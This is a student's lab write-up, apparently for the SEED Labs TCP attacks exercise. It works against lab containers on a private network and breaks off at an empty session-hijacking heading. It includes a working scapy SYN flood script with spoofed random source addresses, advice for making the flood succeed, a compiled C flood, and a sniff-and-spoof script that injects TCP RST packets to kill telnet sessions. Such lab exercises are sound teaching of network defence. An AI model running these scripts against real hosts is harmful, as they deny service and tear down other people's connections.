





###### [Lab Link](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf)

---
### Machine Configurations

#### Host M (Attacker)

###### IP : `10.9.0.1`
###### MAC: `02:42:b5:6a:84:e4`
#### Host A (Victim)

###### IP : `10.9.0.5`
###### MAC: `02:42:0a:09:00:05`

#### Host B (User1)

###### IP : `10.9.0.6`
###### MAC: `02:42:0a:09:00:06`

#### Host C (User2)

###### IP : `10.9.0.7`
###### MAC: `02:42:0a:09:00:07`

---
## Task 1: SYN Flooding Attack
### Task 1.1: Launching the Attack Using Python

To perform this attack, we need to send many connection requests to the same port number at the victim machine to abuse the limited size of the half-open connections queue.
- They must come from random IP addresses in order to net get blocked by a firewall.

```python
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip = IP(dst="10.9.0.5")
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
    pkt[TCP].sport = getrandbits(16) # source port
    pkt[TCP].seq = getrandbits(32) # sequence number
    send(pkt, verbose = 0)
```

> The `flags='S'` parameter in the `tcp` part represents `SYN` packet.
> The destination IP address is that of the victim, and the port is 23 because that is the `telnet` port.

Running this code on the attacker machine and then trying to telnet from the user1 machine to the victim machine works normally.

##### Important Note

> However, once a correct connection has been made, the SYN flooding attack does not work anymore because established connections are cached.

- To view the cache, we use the following command on the victim machine:
```bash
ip tcp_metrics show
```

- To be able to remove the connection from the cache, we use the following command on the victim machine:
```bash
ip tcp_metrics flush
```

Therefore, anytime during the attack, if it works, before retrying the attack again, make sure to flush the cache.

Another issue to face is the **TCP retransmission issue**. This basically means the victim machine will send out `SYN+ACK` packets once it gets a `SYN` packet to continue the handshake.
- If a response is not observed, this packet is sent again. 
- This is done a number of times, until the entry is then removed from the connections queue. (5 is default number)

> The number of retries can be set seen this command:
```bash
sysctl net.ipv4.tcp_synack_retries
```

To combat this, we need to be able to send packets quickly such that the queue is not freeing up in time for a new connection from user1 to take place.
- Try running multiple instances of the script in parallel.
```bash
python3 synflood.py &
```
> Type this command into the terminal multiple times. 

I ran around 8 background processes, and that is when the telnet connection failed from user1 to victim machine.



Another important aspect to keep in consideration is the size of the queue which can be viewed using this command:
```bash
sysctl net.ipv4.tcp_max_syn_backlog
```
- The larger the size of the queue, the harder it is for out attack to succeed as it is the main element working against the attack.

> Decreasing the size of the queue using the following command on the victim machine:
```bash
sysctl -w net.ipv4.tcp_max_syn_backlog=80
```

Running the attack again using only 1 process.

> The queue has now a length of 80, and we know that the established connections are cached in a portion with size 1/4 of the queue.

If we view the current number of open connections in the queue on the victim machine with the attack running properly, we should see that the number is around 3/4 the size of the queue, in this case, 60.
```bash
netstat -tna | grep SYN_RECV | wc -l
```



This implies that the attack is working efficiently, and the queue is full.

Now, we try and telnet from user1 to victim machine.

> However, the telnet connection still succeeds. This is because the queue doesn't stay full due to the retransmission issue discussed above.

The solution is to increase the number of parallel python scripts running at once. Making it run 2 processes works, and the connection fails.

This is much less than the first time running 8 parallel processes. Hence, the size of the queue is an essential aspect in the success of this attack.

##### Closing a Background Process

To close the background processes:
1. Run `ps -aux` to see the running processes.
2. Use `kill <id>` to terminate a process.

### Task 1.2: Launch the Attack Using C

Since C runs way faster than python, the C code might not make us face the same issues we faced above.
- C uses the actual raw socket directly, which is faster.

> We need to reset the size of the queue. The size was 512 before we decreased it to 80.

```bash
sysctl -w net.ipv4.tcp_max_syn_backlog=512
```

Compiling the attack c code.

```bash
gcc -o synflood synflood.c
```
> Compile the C code locally first, as `gcc` isn't found on the attacker machine.

Running the output executable.
```bash
sudo synflood 10.9.0.5 23
```
> Run as `sudo` as access to the socket requires privileges.
> Also run this locally as there are binaries needed that aren't found. It should work normally.

Now, we try to Telnet from user1 to victim machine.

We see that only running one instance of this executable works and the telnet connection hangs and fails.

### Task 1.3: Enable the SYN Cookie Countermeasure

To enable the cookie countermeasure, we run the following command on the victim machine:
```bash
sysctl -w net.ipv4.tcp_syncookies=1
```

We then run the C code again, and try to connect via telnet.



We see that the attack fails, and the telnet connection works.
- Hence, the cookies need to be disabled for the attack to succeed.

---
## Task 2: TCP RST Attacks on `telnet` Connections

The way this attack works is that sends a RST packet to one of the clients communicating.
- The RST packet needs to have a correct sequence number, which can be obtained from the ACK field of the last packet sent.
- The RST packet needs to be sent from one of the communicating clients, hence, we need to spoof the sending IP address.

> Lets assume user1 and user2 are going to be communicating via `telnet`, and user1 is the one that starts the telnet to user2. We want to spoof a RST packet being sent from user1 to user2 to close the connection.

This means we need to observe the ACK numbers of the last sent packet from user1 to user2, as the next packet we send, should have a SEQ number equal to that ACK number.
- The next packet we send is the RST packet.

We also need to determine the port used for communication, one of these ports is port 23 at user2. The source port used by user1 to start communication needs to be known, as this is the one the RST packet is going to be sent to.

> This can all be done using `scapy`, where we sniff for a packet being sent. We then use the attributes from that sniffed packet to fill up the required data in the RST spoofed packet.

```python
from scapy.all import *

user1 = "10.9.0.6"
user2 = "10.9.0.7"

def spoof_pkt(pkt):
    tcp_packet = pkt[TCP]
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    tcp = TCP(sport=tcp_packet.dport, dport=tcp_packet.sport, flags="R", seq=tcp_packet.ack)
    pkt = ip/tcp
    ls(pkt)
    send(pkt, verbose=0, iface="br-d359077599dd")

filter = f"tcp and src host {user1} and dst host {user2} and dst port 23"
sniff(filter=filter, prn=spoof_pkt, iface="br-d359077599dd")
```
> The filter is used to check for packets going from user1 to user2 and on the telnet port.
> We sniff and send packets on the correct interface.
> We set the flag to `R` to represent RST packet.

1. We set the source IP to be that of user2, or the destination of the sniffed packet. We set the source port to be the destination port of the sniffed packet, or port 23 at user2. 
	- This basically means we are sending a packet from user2:23 to trick user1 to believe it is coming from the telnet port of user2.

2. The destination port of that spoofed packet will be the source port of the sniffed packet. This is because user1 is communicating via telnet on that port, so for user2 to communicate via telnet to user1, it needs to use that port.

3. We finally set the SEQ number of that spoofed packet to be the ACK of the previous packet to ensure that the packet is accepted by the protocol stack.

Now, if we run this code and type anything in the telnet terminal, the connection is instantly closed. This is because our sniffer is running in the background, and once a packet is sent, the sniffer is activated, triggering the `spoof_pkt` function to send the RST packet.

To prove this via wireshark, we can start a telnet connection from user1 to user2 normally.
```bash
telnet 10.9.0.7
```

We then run the code on the attacker machine.
```bash
python3 rst.py
```

We then type a single character `a` in the telnet terminal in user1 and observe wireshark.





1. Sending the letter `a`.
We see packet number 1 with ACK 1 is sent with length 1. This is the packet containing the `a` data we sent. A response is then generated from user2 to send the data back to user1 to display it (this is how telnet works). Then finally packet 3, user1 sends the data to user2 with a SEQ of 2.
2. Sending the RST.
Now, we see 2 RST packets sent, this is because our code captures any packets from user1(10.9.0.6) to user2(10.9.0.7) and with destination port 23. The 2 RST packets are from user2 and to user1, and have SEQ numbers equal to the ACK numbers for packet 1 and 3.

However, only the last RST packet matters, as it is the one with the correct SEQ number that user1 is waiting for. Packet number 7 is the one that terminates the telnet connection.

> See that the port number used is 35568.

To do this manually,...

---
## Task 3: TCP Session Hijacking

